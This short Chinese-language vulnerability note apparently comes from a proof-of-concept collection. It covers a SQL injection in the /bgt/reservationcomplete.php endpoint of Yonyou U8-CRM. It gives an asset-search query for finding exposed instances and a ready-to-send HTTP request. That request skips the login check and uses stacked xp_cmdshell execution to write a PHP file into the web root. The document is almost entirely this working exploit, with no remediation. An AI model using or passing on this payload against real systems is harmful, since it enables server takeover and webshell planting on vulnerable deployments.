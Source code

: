 # 用友U8-CRM系统接口reservationcomplete.php存在SQL注入漏洞

用友U8-CRM系统接口 /bgt/reservationcomplete.php 存在SQL注入漏洞

## hunter

```yaml
app.name="用友 CRM"
```

## poc

```java
GET /bgt/reservationcomplete.php?DontCheckLogin=1&ID=1112;exec%20master..xp_cmdshell%20%27echo%20^%3C?php%20echo%20hello;?^%3E%20%3E%20D:\U8SOFT\turbocrm70\code\www\hello.php%27; HTTP/1.1
Host:
```

